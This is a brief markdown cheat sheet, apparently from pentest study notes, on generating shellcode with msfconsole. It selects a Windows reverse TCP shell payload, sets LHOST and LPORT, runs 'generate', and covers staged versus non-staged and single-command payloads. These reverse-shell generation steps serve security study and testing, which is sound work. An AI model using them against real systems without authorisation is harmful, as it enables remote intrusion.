 # msfconsole

## Msfconsole Have a the Keyword "generate" that Generates Shell Code. So, First Select a Payload

```bash
use payload/windows/shell_reverse_tcp
```

### Now, Set Variables as Usual

```bash
set LPORT 5555
set LHOST 192.168.0.101
```

### Now Generate Shell Code Using the Command "generate"

```bash
generate
#to see the options use generate -h
```

## If Meterpreter Goes In and Out, Change Payload

```bash
set payload linux/x86/
```

* switch to staged or non staged

## Staged Payloads

* they will have /meterpreter/ in front of payload

## Non-Staged Payloads

* they will not have /meterpreter/

## Single Commands in Windows

### If there is Limited Space and Only a Single Command is Needed Use

```bash
use payload/windows/exec
```

```bash
use payload/cmd/windows/generic
```

## Resources

* [https://burmat.gitbook.io/security/hacking/msfvenom-cheetsheet](https://burmat.gitbook.io/security/hacking/msfvenom-cheetsheet)

